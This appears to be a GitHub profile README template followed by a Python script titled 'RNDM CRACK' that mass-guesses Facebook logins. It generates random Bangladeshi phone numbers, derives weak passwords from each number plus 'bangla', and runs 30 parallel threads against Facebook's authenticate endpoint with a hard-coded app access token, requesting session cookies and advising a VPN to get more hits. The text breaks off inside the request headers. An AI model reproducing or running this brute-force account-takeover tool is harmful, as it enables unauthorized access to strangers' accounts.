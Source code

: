 git_clon
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
Nooriqbal123/Nooriqbal123 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
#--------------------- [ INFO ] -------------------#
#DEVELOPER : NOOR AFRIDI
#CODE BY : NOOR AFRIDI
#OPEN SOURCE BY : BHOOT-X [NOOR AFRIDI]
#TOOL : RNDM CHECK
#INJOY THE OPEN SOURCE 
#ALLAH HAFIZ
#--------------------- [ MODEL ] -------------------#
import os
import time
import sys
from os import path
import urllib
import pip
import base64
import zlib
from bs4 import BeautifulSoup as sop
from bs4 import BeautifulSoup
try:
        import os,requests,json,time,re,random,sys,uuid,string,subprocess
        from string import *
        from concurrent.futures import ThreadPoolExecutor as tred
except ModuleNotFoundError:
        os.system(f'pip install requests futures==2 > /dev/null')
except:pass
#--------------------- [ SEX ] -------------------#
jan = []
loop=0
oks=[]
cps=[]
twf=[]
#--------------------- [ CODE ] -------------------#
W='\033[1;37m' #WHITE
G='\033[38;5;46m'
F='\033[38;5;45m'
R='\033[38;5;196m'
#--------------------- [ LOGO ] -------------------#
fuck = """
88""Yb 88  88  dP"Yb   dP"Yb  888888 
88__dP 88  88 dP   Yb dP   Yb   88   
88""Yb 888888 Yb   dP Yb   dP   88   
88oodP 88  88  YbodP   YbodP    88   
===================================
[+] ADMIN : NOOR AFRIDI
[+] GITHUB: NOOR AFRIDI
[+] TOOL  : RNDM CRACK
[+] STATES: OPEN SOURCE
=================================== """
#--------------------- [ DEF-LOGO X CLEAR ] -------------------#
def x():
    os.system('clear')
    print(fuck)
#--------------------- [ DEF-XNXX ] -------------------#
def xnxx():
    print(f'{W}===================================')
#--------------------- [ MAIN ] -------------------#
def bhootxx():
    x()
    print('[1] RNDM CRACK')
    print('[2] EXIT');xnxx()
    xtx = input('[?] CHOICE : ')
    if xtx in '1':
        rndmx()
    elif xtx in '2':
        print('Allah hafiz ')
        os.system('exit')
#--------------------- [ RNDM ] -------------------#
def rndmx():
    x()
    print('[+] BD SIM CODE : 017,019,018,016 ');xnxx()
    dog = input('[?] CODE : ')
    x()
    try:
        print('[+] LIMIT : 999,9999,99999');xnxx()
        limit = int(input('[?] LIMIT : '))
    except ValueError:
            limit = 5000
    for nmbr in range(limit):
            xxx = ''.join(random.choice(string.digits) for _ in range(8))
            jan.append(xxx)
    with tred(max_workers=30) as tanox:
            x()
            tl = str(len(jan))
            print(f'[+] TOTAL UID : {str(len(jan))}')
            print(f'[+] USE JAPAN VPN COMING MORE OK IDS.......');xnxx()
            for psx in jan:
                ids = dog+psx
                passlist = [psx,ids,ids[:8],ids[:7],'bangla']
                tanox.submit(sexx,ids,passlist)
    xnxx()
    print(f'[+] TOTAL OK -{str(len(oks))}')
    xnxx()
#--------------------- [ MTHD ] -------------------#
def sexx(ids,passlist):
        global loop
        global oks
        sys.stdout.write(f'\r\r[+] [BHOOT FIND] [{loop}] [OK:-{len(oks)}]')
        sys.stdout.flush()
        try:
                for pas in passlist:
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        random_seed = random.Random()
                        adid = str(''.join(random_seed.choices(string.hexdigits, k=16)))
                        device_id = str(uuid.uuid4())
                        cat = {
                        
                        
                        
                        
                        
                                'adid':adid,
                                'format':'json',
                                'device_id':device_id,
                                'email':ids,
                                'password':pas,
                                'generate_analytics_claims':'1',
                                'credentials_type':'password',
                                'source':'login',                              
                                'error_detail_type':'button_with_disabled',                                
                                'enroll_misauth':'false',                             
                                'generate_session_cookies':'1',
                                'generate_machine_id':'1',
                                'fb_api_req_friendly_name':'authenticate',
                        }
                        
                        
                        
                        
                        
                        bhoot={
                        
                        
                        
                        
                        
                                'Authorization':f'OAuth {accessToken}',
                                'X-FB-Friendly-Name':'authenticate',
                                'X-FB-Connection-Type':'unknown',
                                'User-Agent':None,
                                'Accept-Encoding':'gzip, deflate',
                                'Content-Type': 'application/x-www-form-urlencoded',
